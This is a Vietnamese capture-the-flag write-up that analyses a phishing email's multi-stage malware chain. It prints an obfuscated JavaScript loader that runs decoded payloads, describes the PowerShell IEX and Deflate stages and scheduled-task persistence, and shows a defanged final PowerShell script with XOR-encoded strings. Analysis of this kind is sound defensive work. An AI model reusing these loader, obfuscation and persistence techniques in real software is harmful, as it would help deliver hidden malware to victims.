# Challenge Hypercraft

## 1. Đầu vào challenge

Đầu vào challenge cung cấp file `hypercraft.eml`.

Sau khi đọc file bằng `strings` thì thấy được:



Nội dung thư hiện đang được encode bằng base64, và phần đính kèm chứa file tên `Arodorian Hypercraft.pdf.html`.

Sau khi decode thì thu được 1 file html, mở thử thì download được về 1 file zip.



Extract thì thu được 1 file `[TOP SECRET] Arodorian Hypercraft.pdf.js`, mở file để đọc nội dung trong đó.

```javascript
var yqybdscl = "...."
var zuloqgnm = yqybdscl + "..."
var eplicmqe = zuloqgnm + "...."
var uwetjyhi = eplicmqe + "...."
var status = 532;

while (status > 0) {
    status = Math.floor(Math.random() * 10000) + 1;

    switch (status) {
        case 532:
            var cleanedData = uwetjyhi.replace(/[sV]/g, '');
            var resultString = "";

            for (var i = 0; i < cleanedData.length; i += 2) {
                var hexPair = cleanedData.substr(i, 2);
                var charCode = convertToNumber(hexPair, 16);
                resultString += getCharFromCode(charCode);
            }

            executePayload(resultString);
            status = -532;
            break;
    }
}

function convertToNumber(str, base) {
    return parseInt(str, base);
}

function executePayload(code) {
    (Function(code)());
}

function getCharFromCode(code) {
    return String.fromCharCode(code);
}
```



Nhận thấy đây là hàm `execute` để payload sau khi deobfuscate chạy, vậy giờ thay hàm đó thành `console.log` để in payload ra màn hình.



Sau khi thay, chỉ cần chạy file js đó để tự deobfuscate:

```bash
node "[TOP SECRET] Arodorian Hypercraft.pdf.js" > stage2.js
```



## 2. Deobfuscate lớp JavaScript tiếp theo

Tiếp tục thấy đoạn code này đang bị obfuscate nặng nên thử deobfuscate bằng tool cho JavaScript.



Phân tích ở đoạn cuối của file js có:



Đoạn này đang hiện 1 popup giả, sau khi hiện được `10s` thì mới tắt, đồng thời payload cuối chỉ được chạy khi `> 779520ms` tương đương khoảng `13 phút`, vì vậy sửa đoạn này 1 chút để bỏ qua thời gian chờ.



In thẳng `ynvjonvw[2]` ra thay vì phải chờ và hiện popup.


## 3. Gỡ lớp PowerShell nén Deflate

```bash
node stage2.js > stage3.txt
```
Sau khi thu được file `stage3.txt` thấy được command `IEX` PowerShell đang chạy với payload được encode bằng base64 và được nén bằng Deflate.




Sau khi decompress Deflate ra được:



Tiếp tục thu được 1 script PowerShell bị obfuscate, sử dụng tool `PowerShellDecoder` để deobfuscate script này thì thu được:



## 4. Làm sạch script PowerShell cuối

Chú ý trong script cần xóa các đoạn:

- `cd ${XSxNApVe}`: `cd` vào thư mục lạ
- `(get-VariAbLe '5EVLS' -Va)::'writeallbytes'.Invoke(${NynG},${ReRBwTRV})`: ghi file vào disk
- `${eRQcf} = New-ScheduledTaskAction ...`
- `${tpNDJPwAa} = New-ScheduledTaskPrincipal ...`
- `${aIufdyWasr} = New-ScheduledTaskTrigger ...`
- `${dwtTAWqx} = New-ScheduledTaskSettingsSet ...`
- `Register-ScheduledTask ...`

Các đoạn trên đang tạo persistence.

Script cuối:

```powershell
SET-ItEM ("VArIaBle:4z0")  ([TypE]'sYSTEm.Text.enCodinG'  )  ;   sv  IgF  (  [TypE]'SYsTEM.cOnVerT'  )  ;sV '5EVlS' ([type]'Io.fILE')  ;  Set-StrictMode -Version 2
function UYcxq (${TNme},${ChkgoIul}) {
    for (${eumlMxNyUg} = 0; ${eumLMxNYug} -lt ${TNME}.cOUnt; ${EuMLMxNyUG}++) {
       ${TNME}[${eUMlMXnyuG}] = (${tNmE}[${eUmLmxNyuG}] -bxor ${cHKGoiUl})
    }
    return  ( gEt-vaRIAble ("4Z0")  -VaL)::"AsCii".gETsTRIng(${tNMe})
}
function RcDAtCaJT {return (1..16 | .('%'){ '{0:X}' -f (Get-Random -Max 16) }) -join ''}
${EUMlmXNyUGzzOO} = (UyCxq ([System.Byte[]] @(0x0a,0x16,0x16,0x12,0x58,0x4d,0x4d,0x11,0x16,0x0d,0x0e,0x07,0x0c,0x12,0x0e,0x03,0x0c,0x11,0x4c,0x0a,0x16,0x00,0x4d,0x10,0x4d)) 98)
${suQQsIgl} = (UyCxq ([System.Byte[]] @(0x31,0x3c,0x36)) 80)
${XsxnapVE} = (UyCxq ([System.Byte[]] @(0x42,0x13,0x7d,0x4c,0x4c,0x78,0x5d,0x48,0x5d,0x13,0x70,0x53,0x5f,0x5d,0x50,0x13,0x71,0x55,0x5f,0x4e,0x53,0x4f,0x53,0x5a,0x48,0x13,0x6b,0x55,0x52,0x58,0x53,0x4b,0x4f,0x13,0x6c,0x53,0x4b,0x59,0x4e,0x6f,0x54,0x59,0x50,0x50,0x13)) 60)
${cyRYXwhqM} = (RcDATCAJt)+(UyCxq ([System.Byte[]] @(0x67,0x3f,0x2b,0x3a)) 73)
${NyNG} = (pwd).ToString.Invoke() + '\\' + ${cyRYXwHqM}
${WbwMgQB} = (RcDATCAJt) + (RcDATCAJt)
${uJRW} = $(whoami)
${EUMLmXNYuGSWAblOEP} = (UyCxq ([System.Byte[]] @(0x5d,0x7d,0x45,0x3d,0x4d,0x42,0x60,0x50,0x5d,0x37,0x4e,0x74,0x67,0x4c,0x55,0x71,0x55,0x5c,0x4e,0x6a,0x60,0x53,0x35,0x68,0x66,0x6a,0x56,0x7e,0x4f,0x40,0x45,0x74,0x47,0x6a,0x4a,0x68,0x60,0x47,0x46,0x7e,0x4d,0x40,0x34,0x63,0x55,0x37,0x4e,0x68,0x5d,0x5c,0x56,0x68,0x50,0x36,0x4e,0x75,0x5e,0x53,0x4a,0x34,0x4f,0x47,0x4e,0x5c,0x51,0x36,0x4a,0x7d,0x65,0x5c,0x46,0x34,0x48,0x68,0x4a,0x6b,0x5e,0x53,0x7c,0x77,0x4d,0x6d,0x6f,0x4f,0x67,0x7d,0x31,0x57,0x60,0x53,0x30,0x63,0x4d,0x6a,0x46,0x72,0x60,0x36,0x52,0x7d,0x67,0x36,0x6c,0x68,0x66,0x43,0x73,0x71,0x5e,0x5c,0x6c,0x68,0x4d,0x47,0x35,0x68,0x61,0x43,0x52,0x6e,0x4d,0x43,0x4e,0x31,0x67,0x43,0x42,0x7e,0x67,0x7d,0x45,0x6d,0x4d,0x47,0x5d,0x63,0x5d,0x7d,0x73,0x73,0x47,0x63,0x39,0x39)) 4);
${rERbWtRv} =  $igf::'FromBase64String'.Invoke(${eumlMXnyUgsWABlOEp});
${askzpHUpAj} = (pwd).ToString.Invoke() + '\\'
${vQpSBXgyj} = (RcDATCAJt)
${aetRsdf} = (UYcxq ([System.Byte[]] @(0x97,0x8b,0x9d,0xa4,0xb3,0xef,0xab,0xac,0x80,0xb0,0xb9,0x80,0xb3,0xeb,0x86,0xec,0xad,0xac,0x80,0xb6,0x91,0x80,0xab,0xb7,0xeb,0xab,0x80,0xee,0xa2)) 223)
${tkqrmLSfPD} = '"' + (UyCxq ([System.Byte[]] @(0x22,0x2e,0x33,0x6b,0x63,0x22,0x3c,0x39,0x6b,0x66,0x3e,0x38,0x2e,0x29,0x6b)) 75) + "$eUmLmxNYuGZZoO$suqqSiGL/$vQpsbXGyj)" + '"'
Write-Host ${XsxnapVE}
Write-Host ${cyRYXwhqM}
Write-Host ${NyNG}
Write-Host ${WbwMgQB}
Write-Host ${uJRW}
Write-Host ${aetRsdf}
Write-Host ${tkqrmLSfPD}
Write-Host ${rERbWtRv}.Length
```

## 5. Flag

Sau khi dựng máy ảo để chạy script PowerShell đó thì thu được flag là `HTB{l0ts_of_l4Y3rs_iN_th4t_1}`.



## 6. Flow


